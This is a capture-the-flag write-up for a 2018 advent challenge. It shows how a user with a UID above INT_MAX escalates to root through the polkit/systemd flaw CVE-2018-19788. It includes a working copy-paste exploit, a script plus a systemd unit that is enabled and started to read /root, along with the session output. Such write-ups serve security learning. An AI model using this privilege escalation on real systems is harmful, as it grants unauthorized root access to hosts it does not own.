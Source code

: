# Naughtykit - Pwn/misc (100)

O'boy, o'boy was this kit naughty this year or what. There's no present for
him for sure! But .. what if he's too naughty?

Service: ssh -p 1217 [email protected] (password: naughtykit)

## Analysis

This should have been more obvious than it was for me, but I wasn't as
familiar with recent CVEs as I needed to be. Some initial analysis of the box
gives us a high UID value and a Debian OS.

```  
$ ssh -p 1217 [email protected]  
[email protected]'s password:  
Linux version 4.9.18-otw (root@vblx03) (gcc version 6.3.0 20170516 (Debian
6.3.0-18+deb9u1) ) #15 Fri Dec 7 16:31:26 CET 2018  
...  
Welcome to Debian GNU/Linux 9 (stretch)!

...

                 _  
               _[_]_  
                (")  
            `--( : )--'  
              (  :  )  
        jgs ""`-...-'""

username: elf  
password: elf

You've been a naughty kit, ho-ho-hoo!

northpole login: elf (automatic login)

Linux northpole 4.9.18-otw #15 Fri Dec 7 16:31:26 CET 2018 x86_64  
elf@northpole:~$  
elf@northpole:~$ cat /etc/os-release  
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"  
NAME="Debian GNU/Linux"  
VERSION_ID="9"  
VERSION="9 (stretch)"  
ID=debian  
HOME_URL="https://www.debian.org/"  
SUPPORT_URL="https://www.debian.org/support"  
BUG_REPORT_URL="https://bugs.debian.org/"  
elf@northpole:~$ id  
uid=4020181224(elf) gid=100(users) groups=100(users)  
```

Some hints after the competition pointed me to the following links:

* [gitlab: unprivileged users with UID > INT_MAX can successfully execute any systemctl command](https://gitlab.freedesktop.org/polkit/polkit/issues/74)  
* [github: unprivileged users with UID > INT_MAX can successfully execute any systemctl command](https://github.com/systemd/systemd/issues/11026)  
* [CVE-2018-19788 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-19788)  
* [github: Silly easy exploit for CVE-2018-19788](https://github.com/AbsoZed/CVE-2018-19788)

Enough experimenting shows that the 'elf' user we start with can indeed run
`systemctl` commands which we should probably use to privesc and read whatever
is in `/root/`

## Solution

Login and copy/paste the following:

```bash  
cat <<EOF > /home/elf/pwn.sh  
#!/bin/sh

ls -al /root/ > /home/elf/root_dir  
cat /root/flag > /home/elf/flag  
EOF

chmod 777 /home/elf/pwn.sh

cat <<EOF > /home/elf/pwn.service  
[Unit]  
Description=pwn  
After=network.target  
  
[Service]  
ExecStart=/home/elf/pwn.sh  
ExecReload=/home/elf/pwn.sh  
Restart=on-failure  
RuntimeDirectoryMode=0755  
  
[Install]  
WantedBy=multi-user.target  
Alias=pwn.service  
EOF

systemctl enable /home/elf/pwn.service  
systemctl start pwn.service

cat flag  
```

This eventually gets you the following:

```bash  
...  
elf@northpole:~$ systemctl enable /home/elf/pwn.service

(process:162): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is
invalid or out of range for property 'uid' of type 'gint'  
**  
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid
(POLKIT_UNIX_PROCESS (subject)) >= 0)  
Created symlink /etc/systemd/system/pwn.service → /home/elf/pwn.service.  
Created symlink /etc/systemd/system/multi-user.target.wants/pwn.service →
/home/elf/pwn.service.  
elf@northpole:~$ systemctl start pwn.service

(process:179): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is
invalid or out of range for property 'uid' of type 'gint'  
**  
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid
(POLKIT_UNIX_PROCESS (subject)) >= 0)  
elf@northpole:~$ ll  
total 12  
drwx------ 2 elf  users 1024 Dec 28 05:21 .  
drwxr-xr-x 3 root root  1024 Dec  6 23:48 ..  
lrwxrwxrwx 1 root root     9 Dec  7 00:54 .bash_history -> /dev/null  
-rw-r--r-- 1 elf  users  220 May 15  2017 .bash_logout  
-rw-r--r-- 1 elf  users 3526 May 15  2017 .bashrc  
-rw-r--r-- 1 elf  users  675 May 15  2017 .profile  
-rw-r--r-- 1 root root    29 Dec 28 05:21 flag  
-rw-r--r-- 1 elf  users  213 Dec 28 05:21 pwn.service  
-rwxrwxrwx 1 elf  users   78 Dec 28 05:21 pwn.sh  
-rw-r--r-- 1 root root   266 Dec 28 05:21 root_dir  
elf@northpole:~$ cat flag  
AOTW{INtEgerzRhARds0mETIm35}  
```

Original writeup
(https://github.com/nononovak/otwadvent2018-ctfwriteup/blob/master/day17.md).